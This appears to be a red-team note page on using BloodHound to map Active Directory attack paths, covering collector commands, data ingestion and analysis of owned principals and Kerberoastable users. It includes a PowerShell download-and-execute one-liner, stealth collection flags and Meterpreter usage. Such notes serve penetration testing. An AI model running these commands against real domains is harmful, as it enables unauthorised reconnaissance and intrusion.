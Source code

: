 # [BloodHound](https://github.com/BloodHoundAD/BloodHound)

> BloodHound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment.

---

## Setup

**Attack machine**: [[neo4j#Run via Docker|Start Neo4j]]

**Attack machine (must be GUI)**: Start Bloodhound

```bash
cd /opt/bloodhound/BloodHound-linux-x64
./BloodHound --no-sandbox # no sudo required
```

Login using your neo4j credentials (in LastPass).

---

## Collection

Somehow, someway, execute a BloodHound collector (located in **/opt/bloodhound/collectors**), either from the attacker's machine with domain user credentials or on a domain-joined machine.

**Attacker Machine, Python collector**:

```bash
bloodhound-python -d $DOMAIN -u $USERNAME -p $PASSWORD -c All -ns $DOMAIN_DNS_SERVER_IP
```

**Target Machine, PowerShell collector**:

Source the BloodHound collector script.

```powershell
. .\SharpHound.ps1 # Locally
IEX (New-Object Net.Webclient).DownloadString("$HTTP_URL_TO_SCRIPT"); $BLOODHOUND_COMMAND_HERE # Remotely
```

Execute the collector script.

```powershell
Invoke-BloodHound -CollectionMethod All -Domain $DOMAIN -Stealth -NoSaveCache -CompressData # HYDRA.test
```

**Target Machine, C# Collector**:

```powershell
.\SharpHound.exe --CollectionMethod All --Domain $DOMAIN --Stealth --NoSaveCache --CompressData # HYDRA.test
```

**Meterpreter/PowerShell on Target Machine**:

```powershell
meterpreter > use powershell
meterpreter > powershell_import $PATH_TO_SHARPHOUND_PS1
meterpreter > powershell_execute "Invoke-BloodHound -CollectionMethod All -Domain $DOMAIN -Stealth -NoSaveCache -CompressData" # HYDRA.test
```

---

## Ingest

Transfer the resultant ZIP archive to the attacker machine upload it to the BloodHound web UI, and explore!

---

## Analysis Process

After you've ingested all of the data, go to the search bar, type in the name of the principal you've already compromised, and hit enter. Right-click the resultant node and select `Mark Principal as Owned`. Do this for each principal you've compromised.

Afterwards, go through each of the prebuilt analytic queries except for `Shortest Paths to High Value Targets`.

If nothing stands out, select the query `Shortest Paths to High Value Targets` and see if there's anything interesting.

Afterwards, search for each of the owned principals. Right-click the node and investigate the `Node Info` attributes. Pay special attention to `Outbound Control Objects`.

---

## Discover Kerberoastable Users

Use the prebuilt query `List all Kerberoastable Users`.

